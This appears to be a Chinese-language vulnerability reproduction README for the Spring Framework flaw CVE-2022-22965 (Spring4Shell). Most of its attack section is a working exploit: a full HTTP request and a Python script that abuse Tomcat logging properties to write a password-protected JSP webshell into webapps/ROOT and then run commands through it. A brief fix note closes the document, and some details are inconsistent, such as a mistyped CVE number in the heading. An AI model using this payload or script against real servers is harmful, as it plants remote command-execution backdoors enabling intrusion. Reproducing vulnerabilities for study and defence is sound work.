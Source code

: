 # CVE-2022-229655
## 漏洞概述

CVE-2022-22965是在java 9的环境下,引入了class.module.classLoader,导致CVE-2021-1622漏洞补丁的绕过,JDK9中存在可以绕过黑名单禁用的类,导致了这个漏洞

## 影响版本

运行环境为JDK9及以上的版本的:

Spring Framework 5.3.0 - 5.3.17
Spring Framework 5.2.0 - 5.2.19

## 复现流程

### 1.搭建环境

```Linux
docker compose up -d
```

### 2.构建payload

```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22fuck%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20=%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream();%20int%20a%20=%20-1;%20byte%5B%5D%20b%20=%20new%20byte%5B2048%5D;%20while((a=in.read(b))!=-1)%7B%20out.println(new%20String(b));%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=fuck&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: 1.92.105.120:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: pma_lang=zh_CN; solo=f4228ececb23117222043ef861540f4f4797e4b92b3a2fae410fd2e95758bc38758200ed7959fe5e04cc2a0cfe529a705b70c5b195fce9676ff26a55324eb97b; LATKE_SESSION_ID=jYDdLwewG6Laylyl; JSESSIONID=9B00ED14442EF534B6C1735AB614F9A3
Connection: close
suffix: %>//
c1: Runtime
c2: <%
```
访问网页并且进行抓包，修改红色框中的内容，其内容的简单目的是写入恶意代码到webapps/ROOT目录下的fuck.jsp文件中，在访问该文件的时候，需要验证密码pwd之后才能够执行需要执行的命令cmd。**(PS:每次写完shell会有缓存,因此payload没打成功请重启)**

poyload的部分意思

```jsp
首先对suffix、c1、c2参数进行替换。
经过处理之后，有些java基础的人已经看出来了这是一个写入webshell的语法
首先判断pwd是否是fuck，如果通过就执行cmd命令
    
GET 
/?class.module.classLoader.resources.context.parent.pipeline.first.pattern=
<% if("fuck".equals(request.getParameter("pwd"))){ java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream(); 
	int a = -1; byte[] b = new byte[2048];
        while((a=in.read(b))!=-1){
        	out.println(new String(b)); 
	}
}%>//
&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp				//后缀名是jsp
&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT	//路径是webapps/ROOT
&class.module.classLoader.resources.context.parent.pipeline.first.prefix=fuck				//文件名字是fuck
&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1

```
```jsp
?class.module.classLoader.resources.context.parent.pipeline.first.pattern=
```
这个地址是一种构造特定HTTP请求的方法,通常操控Apache Tomcat 服务器的内部配置参数来实现特定功能

首先判断pwd是否是fuck,如果通过就执行cmd命令
```<% ... %>```:脚本标签,包含在其中的Java代码在服务端执行。
```if("j".equals(request.getParameter("pwd")))：```检查请求参数pwd是否等于字符串”fuck”。
```Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream()：```如果条件满足，调用Runtime.getRuntime().exec执行请求参数cmd指定的命令，并获取命令的输出流。
```while((a=in.read(b))!=-1)：```读取命令执行的输出内容。
```out.println(new String(b))：```将读取到的输出内容打印到响应中。

### 3查看是否成功
![alt text](./image/22956image.png)
### 4.脚本
```python
import requests

headers={
    "suffix": "%>//",
    "c1": "Runtime",
    "c2": "<%"
}

payload1='/?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{c2}i if("fuck".equals(request.getParameter("pwd"))){ java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %{suffix}i&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=fuck&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat='
ip="http://192.168.1.136:8080"
payload2='/fuck.jsp?pwd=fuck&cmd=id'

try:
    U1=requests.get(url=ip+payload1,headers=headers,verify=False,timeout=3)
    U2=requests.get(url=ip+payload2,verify=False,timeout=3)
    if U2.status_code == 200:
        print(f"The VULN CVE-2022-22965 exists, payload is :{payload2.replace('/','')}")
except Exception as e:
    print(e)
```

### 5.修复建议

更新到Spring Framework 5.3.18或5.2.20